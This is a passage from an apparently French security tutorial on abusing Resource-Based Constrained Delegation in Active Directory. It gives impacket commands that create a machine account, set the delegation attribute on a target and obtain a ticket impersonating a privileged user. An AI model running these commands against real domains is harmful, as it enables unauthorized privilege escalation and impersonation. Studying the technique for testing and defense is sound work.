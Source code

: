 ![](assets/posts/2024-09-11-RBCD/spnless2.gif)



## 3. Les commandes

### 3.1 Pour l'exploitation de RBCD standard

L'exécution de cette attaque à distance à l'avantage qu'elle ne nécessite pas d'exécution de commandes sur un poste. Le désavantage est qu'elle nécessite des informations de connexion (mot de passe, empreinte HTLM, empreinte AES). 

```bash
# Ajout d'un ordinateur dans le domaine afin d'avoir un service A qu'on contrôle
impacket-addcomputer <DOMAINE>/<USER>:<MDP> -computer-name "MYCOMPUTER$" -computer-pass "R4nD0mPass123!" -dc-ip <IP_DC>

# Ajout du SID de notre ordinateur dans msDs-AllowedToActOnBehalfOfOtherIdentity (liste) de la ressource cible 
# Ici, "USER" est l'utilisateur disposant d'une ACL permettant d'éditer l'attribut msDs-AllowedToActOnBehalfOfOtherIdentity de la ressource ciblée
impacket-rbcd -delegate-from 'MYCOMPUTER$' -delegate-to "<NOM_MACHINE_CIBLE>$" -dc-ip <IP_DC> -action 'write' <DOMAINE>/<USER>:<MDP>

# Récupération du ticket permettant d'usurper l'identité d'un utilisateur privilégié
impacket-getST -spn 'CIFS/TARGET' -impersonate <USER_A_USURPER> -dc-ip <IP_DC> '<DOMAINE>/MYCOMPUTER$:R4nD0mPass123!'
```
